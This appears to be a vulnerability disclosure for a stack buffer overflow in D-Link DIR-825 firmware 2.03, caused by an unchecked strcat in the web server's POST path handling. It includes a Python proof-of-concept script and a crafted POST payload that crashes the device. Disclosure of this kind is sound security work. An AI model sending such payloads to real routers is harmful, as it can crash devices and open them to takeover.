



# Overview
Details of the vulnerability found in the dlink router dir-825.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-825    |  REVB_FIRMWARE_2.03    | https://legacyfiles.us.dlink.com/DIR-825/REVB/FIRMWARE/DIR-825_REVB_FIRMWARE_2.03.ZIP   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `sub_4091AC` at offset 0040A62C, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.


## 2. Vulnerability  Analysis
- When the program processes a user's POST request, if the requested path does not start with a whitelisted prefix such as `auth.tmp` or `HNAP1.txt` etc., and does not have a `.cgi` extension, it proceeds to logic that appends the requested path to /www/ and attempts to locate the corresponding file. However, this concatenation is performed using the unsafe `strcat` function, and the destination buffer can only hold up to `14` bytes of data. If the POST request exceeds this limit, a stack buffer overflow may occur. With carefully crafted input, this vulnerability can be triggered.



# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /biurl_groulllllllllllllllt;domain_filtel_domain_filtnectconnewan_pppoe_secondary_dns_00cgi+oconndmconnecr.cgroet;r_info.xml ng
```

# Vulnerability Verification Screenshot
##  dir-825


# Discoverer
m202472188@hust.edu.cn
